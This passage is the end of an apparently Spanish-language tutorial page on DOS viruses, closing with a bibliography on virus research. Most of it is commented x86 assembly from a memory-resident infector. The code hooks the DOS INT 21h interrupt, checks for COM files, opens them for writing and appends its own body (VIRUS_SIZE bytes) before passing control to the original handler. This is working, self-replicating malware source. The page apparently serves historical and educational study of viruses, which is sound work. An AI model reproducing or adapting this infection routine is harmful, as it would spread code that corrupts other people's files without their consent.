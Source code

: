     jne close_file  
    lodsb  
    cmp al, 'O';  
    jne close_file  
    lodsb  
    cmp al, 'M'  
    jne close_file 
    
    mov ah, 3Dh                       ; | AH = 3Dh  
    mov al, 2                         ; | AL = 2, lectura y escritura  
    int 21h                           ; |_DOS API - Abrir archivo existente 
    
    jc exit                           ; si no se puede abrir archivo, restaurar y delegar  
    xchg ax, bx                       ; handle de archivo en BX
    
    push cs  
    pop ds                            ; MOV DS, CS
    
    mov ah, 40h                       ; | AH = 40h  
    mov cx, VIRUS_SIZE                ; | CX = tamaño del virus  
    mov dx, offset start              ; | DS:DX -> origen: inicio del código viral  
    int 21h                           ; |_DOS API - Escribir en archivo/dispositivo

close_file:     
    mov ah, 3Eh                       ; | AH = 3Eh  
    int 21h                           ; |_DOS API - Cerrar archivo 

exit:     
    pop ds                            ; restaurar registros  
    pop si  
    pop dx  
    pop cx  
    pop bx  
    pop ax 
    
    pop cs:[ret_IP]  
    pop cs:[ret_CS]  
    popf
    
    push cs:[ret_EFLAGS]  
    push cs:[ret_CS]  
    push cs:[ret_IP]  
    iret

VIRUS_SIZE      equ  ($ - start)      ; tamaño del virus  
vector_int21    dw   ?, ?             ; vector original de INT 21h (4 bytes)  
ret_EFLAGS      dw   ?                ; registro de estado del CPU  
ret_IP          dw   ?                ; puntero a la instrucción de retorno  
ret_CS          dw   ?                ; segmento de código de retorno 

eof:                                  ; fin de porción residente para TSR

virus ends  
end start  
{% endhighlight %}

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 